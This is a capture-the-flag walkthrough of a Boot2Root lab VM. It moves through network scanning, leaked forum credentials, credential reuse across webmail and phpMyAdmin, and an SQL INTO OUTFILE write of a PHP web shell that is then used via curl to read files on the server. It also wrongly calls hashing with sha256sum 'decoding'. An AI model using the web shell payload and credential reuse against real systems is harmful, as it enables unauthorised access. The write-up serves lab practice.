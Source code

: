 # Find our IP

At first we should find our Ip address. Run `ip a` or `ifconfig` command in your shell
interpreter for this.  
Priority use `ip a` because this command show all IPs with its subnetwork address.

![](./img/ip_a.png)

# Scan our subnetwork

Our IP is `192.168.1.74/24`. Then we scan our subnetwork, using `nmap <IP>`.  
Is recommended tune your Boot2Root VM with bridge network connection.

![](./img/nmap.png)

Required IP will be marked by "Boot2Root Hack Me" string or will have only list
opened services such as:  
***ftp, ssh, http, imap, https, imaps***, - with its port.

So we see is opened *http* and *https* services we can scan its.

# Dirb

We want to find another web-resources hosted on this web-server.  
Use `dirb https://192.168.1.86 -r`

![](./img/dirb.png)

Was found 3 web-sites:  
- https://192.168.1.86/forum
- https://192.168.1.86/webmail
- https://192.168.1.86/phpmyadmin

# Forum

Let's go to the forum. We see 4 posts there and one of it have name "Probleme login ?".  
We find log from ssh connection, opening this post.

Extract information with:

    curl --insecure "https://192.168.1.86/forum/index.php?id=6" | grep 'invalid user'

![](./img/curl_invalid_user.png)

We see string like a password typed instead of username:

![](./img/curl_invalid_user_passwd.png)

Try to connect via ssh `ssh lmezard@<192.168.1.86`

![](./img/ssh_lmezard_permission.png)

Permission denied. Ok, try login on forum with same credentials. Well done!)  
Check lmezard's user profile.

![](./img/lmezard_forum_profile.png)

Copy his e-mail and go to webmail web-site.

# Mail

Try login with copied e-mail and password from forum.  
We was been accepted. There is 2 e-mails, opening both we can find credentials for connection to a DB.

![](./img/lmezard_mail.png)

# Php My Admin

Login there with login and password from previous step.  
It is main idea that we want to scan home directory in host machine. And we want create file with php script what can execute shell command.  
So login was done with root credentials, we can create this file, using SQL-injection.

But, at first, we should assign where we can do it. Use `dirsearch.py` script (it install from external github) for scan 3 given web-site.

    ./dirsearch.py -u <URL>

![](./img/dirsearch_1.png)
![](./img/dirsearch_2.png)

Under LAMP, files from the website are usually stored under /var/www/ or /var/www/custom_routes (which is probably the case here, like /var/www/forum). Simply using the command won't work, we need to find a folder on which we have rights to store the script.  
SQL-injection:

    SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/forum/templates_c/exec_shell.php'

We receive access reply only from `forum/templates_c` folder. Very well, now we can execute `ls -la` on the server.

    curl --insecure "https://<IP>/forum/templates_c/exec_shell.php?cmd=cd%20/home;%20ls%20-la"

![](./img/curl_sql_injection.png)

Use the same way scan "LOOKATME" folder:

![](./img/curl_lookatme.png)

Open password file

![](./img/curl_pawwsord.png)

FTP service has been being started and by way of connection to it we can try to load some files from host.  
Let's try to connect via FTP.

# FTP (FIleZilla)

We find one archive "fun" and file "README" after connection via ftp. Load this files to our local machine.  
Extracted this archive we see 751 files there, each from its contain part of C program. Try to restore it with our script `restore.py`.

Compile got program and execute it.

![](./img/ftp_hack_script.png)

We get password from ssh connection, what is hashed by SHA256. Decode it, using next command:

    echo -n <PASSWD> | sha256sum

![](./img/sha256sum.png)

Now let's try to connect via ssh with credentials:

    login: laurie
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

Why login is laurie? Because lmezard's e-mail has laurie before '@'.